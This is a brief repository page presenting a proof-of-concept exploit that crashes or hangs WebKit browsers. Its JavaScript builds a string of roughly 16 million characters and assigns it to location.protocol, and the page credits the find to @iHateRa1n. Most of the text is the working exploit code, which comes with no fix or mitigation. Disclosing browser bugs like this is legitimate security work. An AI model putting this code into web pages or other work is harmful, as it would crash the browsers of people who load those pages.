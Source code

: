# WebKit DoS or crash by flooding location.protocol

location.protocol can DoS or crash WebKit, with a large String.

PoC (@iHateRa1n):

```javascript
var s="A";
var k=24;

function repeat(s,k){
    n=0;
    j=s;
    while(n<k){
        j+=j;
        n++;
    }
    return j;
}

function exploit(s){
    location.protocol=s;
}

s=repeat(s,k);

exploit(s);
```

WebKit DoS discovered, and exploited by @iHateRa1n. 

